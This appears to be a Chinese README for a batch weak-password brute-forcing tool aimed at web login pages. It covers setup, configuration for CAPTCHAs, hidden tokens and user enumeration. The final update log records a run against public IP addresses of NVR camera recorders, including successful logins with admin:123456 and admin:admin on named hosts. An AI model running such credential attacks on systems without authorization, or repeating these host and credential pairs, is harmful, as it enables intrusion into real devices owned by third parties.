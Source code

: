 # 批量弱密码爆破工具

http://192.168.0.254:8090/pages/viewpage.action?pageId=111414849

实现对文件中的IP:端口执行弱密码探测的基本功能：

- weakpass_call.py 为调用程序
- weakpass_config.py 为配置文件
- weakpass_report.py 为报告文件（未开发，后续实现结果报送到渗透框架的数据库中）

## 调用方式
```python weakpass_call.py target_list.txt```


![image.png](https://192.168.201.36:8443/sec/view/head/branches/weakpass/png/Pasted%20image%2020220402111746.png)


target_list 为 IP:端口 的列表，一行一个目标；
#### 命令行参数
```
-d [Num] 可以开启浏览器显示，查看登录效果是否正常，也是调试开关
-g url 可以打开playwright代码生成工具codegen模块，用于调试配置，如获取下述用户名字段，密码字段和按钮名称等；下面举例

```


#### 已实现
- 实现对的目标列表的自动识别产品，调用**对应的弱口令**字典进行探测
- 支持多线程并行，批量化目标探测
- 支持错误3次后跳转下一个目标，支持基于密码枚举用户
- 支持用户名密码加密传输的情况
- 支持隐藏Token的情况
- 支持简单验证码的情况
- 支持通过相似度自动判断成功失败、异常

#### 未来计划TODO：
- 解决一些网络原因导致加载异常报错
- 增加更多配置
- 对于未识别的，调用默认字典
- 支持hydra爆破其他端口
- 支持go开发，便于内网使用





## 安装

STEP1. 官方网站下载Python3.7+环境。
	- python.org

STEP2. 安装调用库PlayWright，Fire，loguru  
	- pip install playwright  
	- python -m playwright install  
	- pip install Fire  
	- pip install loguru

安装完成后，使用上述命令执行即可；


## 配置
基础配置如下：
![image.png](https://192.168.201.36:8443/sec/view/head/branches/weakpass/png/Pasted%20image%2020220402113226.png)

- keywords：字典类型，识别产品的关键词，各个关键词之间**与**关系，即登录页html中某些关键词，支持base64编码；留空则直接用“中性下一代防火墙”作为关键词判断，如果没有找到则归为未识别

- user_info：是包含username 字段名和字典目录的元组，pass_info类似

- button：按钮名称，字符串类型，一般用weakpass_call.py -g url 获取按钮名称

- CAPTCHA: 长度一般为2，位置0位填充，位置1为截图，如果长度为0，则代表没有验证码

- suc：登录成功后html中内容关键字，支持base64，根据logic计算整体真假

- fail：登录失败后html中内容关键字，支持base64，根据logic计算整体真假


考虑到配置的便捷性，可以使用-g参数激活浏览器自动获取关键字段，便于填写

```
python .\weakpass_call.py test -g http://219.233.221.163/
```

![image.png](https://192.168.201.36:8443/sec/view/head/branches/weakpass/png/Pasted%20image%2020220402112816.png)

把这些信息复制到配置文件，填写配置

![image.png](https://192.168.201.36:8443/sec/view/head/branches/weakpass/png/Pasted%20image%2020220402113558.png)


日志文件相关配置

![image.png](https://192.168.201.36:8443/sec/view/head/branches/weakpass/png/Pasted%20image%2020220402113635.png)

分别为错误记录、未识别设备、登录成功、登录失败、登录异常



## 参考链接

常见产品弱口令（默认口令）：[https://baizesec.github.io/bylibrary/%E9%80%9F%E6%9F%A5%E8%A1%A8/%E5%B8%B8%E8%A7%81%E4%BA%A7%E5%93%81%E5%BC%B1%E5%8F%A3%E4%BB%A4/](https://baizesec.github.io/bylibrary/%E9%80%9F%E6%9F%A5%E8%A1%A8/%E5%B8%B8%E8%A7%81%E4%BA%A7%E5%93%81%E5%BC%B1%E5%8F%A3%E4%BB%A4/)

我司战略产品弱口令：[密码表](http://192.168.13.254:8090/pages/viewpage.action?pageId=109019660)


## 更新
2022-10-21:
	已实现协程调用
	```
	D:\04-Python\2022-09-21___Web弱密码扫描>python webpass_call.py -f target1.txt
	2022-10-21 16:56:14.660 | INFO     | __main__:main:319 - _Fire(466) --> _CallAndUpdateTrace(681) --> launch(371) --> main(319) --> | 目标总数 => 8
	2022-10-21 16:56:22.453 | SUCCESS  | __main__:deal_product_result:85 - 已识别: http://80.52.143.218:1025 -> 宇视NVR地址: BCS-P-NVR3202
	2022-10-21 16:56:22.514 | SUCCESS  | __main__:deal_product_result:85 - 已识别: http://91.235.247.118:88 -> 宇视NVR地址: NVR8-2
	2022-10-21 16:56:24.704 | INFO     | __main__:create_task_list:133 - 创建任务: 已添加字典3条, 当前总任务数3个. http://80.52.143.218:1025:宇视NVR地址
	2022-10-21 16:56:24.706 | INFO     | __main__:create_task_list:133 - 创建任务: 已添加字典3条, 当前总任务数6个. http://91.235.247.118:88:宇视NVR地址
	2022-10-21 16:56:33.169 | SUCCESS  | __main__:deal_product_result:85 - 已识别: http://109.95.32.165:85 -> 宇视NVR地址: ZIP-NVR201-08L
	2022-10-21 16:56:34.733 | INFO     | __main__:create_task_list:133 - 创建任务: 已添加字典3条, 当前总任务数3个. http://109.95.32.165:85:宇视NVR地址
	2022-10-21 16:56:34.855 | SUCCESS  | __main__:deal_product_result:85 - 已识别: http://213.231.6.93:85 -> 宇视NVR地址: ZIP-NVR302-16S
	2022-10-21 16:56:39.280 | ERROR    | __main__:deal_product_result:95 - 连接超时: http://151.20.32.39:58585
	2022-10-21 16:56:39.353 | ERROR    | __main__:deal_product_result:95 - 连接超时: http://171.6.135.220:88
	2022-10-21 16:56:39.361 | INFO     | __main__:login_fail:204 - http://91.235.247.118:88 -> admin : 888888 登录失败: 0.9732
	2022-10-21 16:56:39.423 | ERROR    | __main__:deal_product_result:95 - 连接超时: http://91.222.154.123:58603
	2022-10-21 16:56:39.761 | INFO     | __main__:create_task_list:133 - 创建任务: 已添加字典3条, 当前总任务数3个. http://213.231.6.93:85:宇视NVR地址
	2022-10-21 16:56:44.305 | SUCCESS  | __main__:login_success:199 - http://80.52.143.218:1025 -> admin : 123456 登录成功: 0.4649
	2022-10-21 16:56:51.164 | INFO     | __main__:login_fail:204 - http://109.95.32.165:85 -> admin : 888888 登录失败: 0.8743
	2022-10-21 16:56:58.144 | INFO     | __main__:login_fail:204 - http://213.231.6.93:85 -> admin : 888888 登录失败: 0.8744
	2022-10-21 16:57:03.536 | SUCCESS  | __main__:login_success:199 - http://80.52.143.218:1025 -> admin : admin 登录成功: 0.4413
	2022-10-21 16:57:10.671 | INFO     | __main__:login_fail:204 - http://109.95.32.165:85 -> admin : admin 登录失败: 0.8743
	2022-10-21 16:57:15.155 | INFO     | __main__:login_fail:204 - http://91.235.247.118:88 -> admin : 123456 登录失败: 0.9732
	2022-10-21 16:57:18.108 | ERROR    | __main__:deal_product_result:95 - 连接超时: http://31.169.84.106:81

	==================================================
	目标可识别: 4/8, 50.00%, 未识别地址：4
	剩余任务数: 0, 任务总数: 12
	成功数量: 2
	失败或异常数量: 5
	==================================================
	2022-10-21 16:57:20.383 | INFO     | __main__:login_fail:204 - http://80.52.143.218:1025 -> admin : 888888 登录失败: 0.6169
	2022-10-21 16:57:24.803 | INFO     | __main__:login_fail:204 - http://91.235.247.118:88 -> admin : admin 登录失败: 0.9732
	2022-10-21 16:57:32.112 | SUCCESS  | __main__:login_success:199 - http://109.95.32.165:85 -> admin : 123456 登录成功: 0.4594
	2022-10-21 16:57:38.999 | INFO     | __main__:login_fail:204 - http://213.231.6.93:85 -> admin : admin 登录失败: 0.8744
	2022-10-21 16:57:46.044 | SUCCESS  | __main__:login_success:199 - http://213.231.6.93:85 -> admin : 123456 登录成功: 0.4649
	```